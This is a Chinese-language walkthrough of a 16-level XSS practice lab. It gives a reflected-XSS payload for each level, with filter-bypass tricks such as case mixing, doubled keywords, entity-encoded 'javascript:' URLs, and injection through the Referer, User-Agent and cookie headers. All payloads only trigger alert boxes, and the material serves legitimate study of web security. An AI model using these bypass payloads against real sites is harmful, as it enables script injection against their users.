 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。</br>
```java
payload：src="javascript:alert(666)"
```

## level15
与上一关相似，修改响应包数据：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(12).png height="300" width="650"></br>
```
payload："><script>alert(1)</script><"
```

## level16
经测试，script和/均被过滤，空格符号也无法使用，但是on事件可以使用。使用img标签，将空格用%0a、%0b、%0d成功。</br>
```
payload：?keyword=<img%0dsrc=a%0donerror=alert(1)>
```


